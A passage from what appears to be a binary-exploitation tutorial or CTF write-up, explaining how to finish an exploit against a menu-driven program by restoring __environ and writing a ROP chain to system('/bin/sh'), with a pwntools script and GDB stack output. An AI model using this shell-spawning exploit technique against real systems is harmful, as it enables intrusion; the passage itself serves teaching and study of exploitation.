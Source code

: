 Ok great! Now we have a stack leak and still have control over `u`'s data through `u->group`. We can now edit `u->group` to change the pointer of `u->bio`, and then edit `u->bio` to write the ROP chain.

There is one final consideration: the edit to `u->name`. Right now it points to `__environ`...do we care if we clobber that address? The answer unfortunately is _yes_. It turns out that the call to `system`, which calls `do_system`, in turn calls `__posix_spawn`. The [sixth argument to this call](https://elixir.bootlin.com/glibc/glibc-2.40.9000/source/sysdeps/posix/system.c#L152) is actually the current `__environ` variable! So, corrupting its data certainly affects our ability to spawn a shell.

We're in luck, though. We already leaked the value of `__environ`, so we can simply replace its value during the edit to `u->name`. We should send and receive each piece of the final `edit` call manually, otherwise the script will infinitely hang while waiting for `menu` to print out a `>` character. This does not happen since the shell is spawned at the return from `edit` so `menu` is never called. The final payload is below:

> We should also be mindful of our ROP chain, specifically that it is an even number of quadwords so we do not crash in `do_system` on an `xmm` instruction like we saw in [[7. Return-Oriented Programming]]. 

```python
# get ROP gadget addresses
r = ROP("/lib/x86_64-linux-gnu/libc.so.6")

# trigger final edit and spawn shell. Perform sends individually since `edit`
# waits for a `>` character that will never arrive when the shell spawns
p.sendline(b'2')
p.recvuntil(b"name:\n")
p.send(p64(stack))
p.recvuntil(b"group:\n")
p.sendline(p64(edit_return))
p.recvuntil(b"uid:\n")
p.sendline(str(10).encode())
p.recvuntil(b"gid:\n")
p.sendline(str(10).encode())
p.recvuntil(b"bio:\n")
p.sendline(p64(r.rdi.address + glibc_base) + \
            p64(bin_sh) + \
            p64(r.ret.address + glibc_base) + \
            p64(system))
p.interactive()
```

Let's check that our overwrite hit the stack as expected by inspecting the stack before the call to `fgets(bio, 0x480, stdin)`:

```
──────────────────────────────────────────────────────────────── code:x86:64 ────
   0x56067f5374f0 <edit+0186>      mov    rax, QWORD PTR [rax+0x20]
   0x56067f5374f4 <edit+018a>      mov    esi, 0x480
   0x56067f5374f9 <edit+018f>      mov    rdi, rax
 → 0x56067f5374fc <edit+0192>      call   0x56067f537160 <fgets@plt>
   ↳  0x56067f537160 <fgets@plt+0000> endbr64 
      0x56067f537164 <fgets@plt+0004> jmp    QWORD PTR [rip+0x2e3e]        # 0x56067f539fa8 <fgets@got.plt>
      0x56067f53716a <fgets@plt+000a> nop    WORD PTR [rax+rax*1+0x0]
      0x56067f537170 <strtoll@plt+0000> endbr64 
      0x56067f537174 <strtoll@plt+0004> jmp    QWORD PTR [rip+0x2e36]        # 0x56067f539fb0 <strtoll@got.plt>
      0x56067f53717a <strtoll@plt+000a> nop    WORD PTR [rax+rax*1+0x0]
──────────────────────────────────────────────────────── arguments (guessed) ────
fgets@plt (
   $rdi = 0x00007ffe1340f898 → 0x000056067f53783a → <main+00b6> jmp 0x56067f537861 <main+221>,
   $rsi = 0x0000000000000480,
   $rdx = 0x00007f2a849feac0 → 0x00000000fbad208b
)
```